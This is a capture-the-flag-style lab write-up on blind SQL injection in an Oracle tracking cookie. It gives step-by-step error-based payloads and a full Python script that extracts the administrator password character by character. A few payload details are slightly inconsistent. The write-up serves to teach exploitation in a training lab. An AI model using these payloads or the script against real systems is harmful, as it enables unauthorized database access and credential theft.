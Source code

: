 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

**Goal:** 
- Output Administrator password.
- Login as Administrator.

**Analysis:** 

1) Prove that parameter is vulnerable

```php
' || (select '' from dual) || '
``` 

-> oracle database

```php
' || (select '' from dualfiewjfow) || '
```

-> error (fake database)

2) Confirm that the users table exists in the database

```php
' || (select '' from users where rownum =1) || ' 
```

-> users table exists

3) Confirm that the administrator user exists in the users table

```php
' || (select '' from users where username='administrator') || '
```

```php
' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || '
```

```php
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') || '
```

-> Internal server error 
-> administrator user exists

```php
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='fwefwoeijfewow') || '
```

-> 200 response 
-> user does not exist in database

4) Determine length of password

```php
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>19) || '
```

-> 200 response at 50 
-> length of password is less than 50
-> 20 characters

5) Output the administrator password

```php
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,,1)='a') || '
```

-> w is not the first character of the password

```python
#!/usr/bin/python3

import sys
import requests
import urllib3
import urllib.parse

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}


def sqli_password(url):
    password_extracted = ""
    for i in range(1,21):
        for j in range(32,126):
            sqli_payload = "' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and ascii(substr(password,%s,1))='%s') || '" % (i,j)
            sqli_payload_encoded = urllib.parse.quote(sqli_payload)
            cookies = {'TrackingId': '6Am99RV1VeuMUnRU' + sqli_payload_encoded, 'session': 'euKsmFZU229rrf8lqw4dt9rkJZGgBDtX'}
            r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
            if r.status_code == 500:
                password_extracted += chr(j)
                sys.stdout.write('\r' + password_extracted)
                sys.stdout.flush()
                break
            else:
                sys.stdout.write('\r' + password_extracted + chr(j))
                sys.stdout.flush()

def main():
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Retreiving administrator password...")
    sqli_password(url)


if __name__ == "__main__":
    main()
```

- Change `tracking id:` and `session:` to use this script: `./script www.example.com`

![[Pasted image 20240903075347.png]]

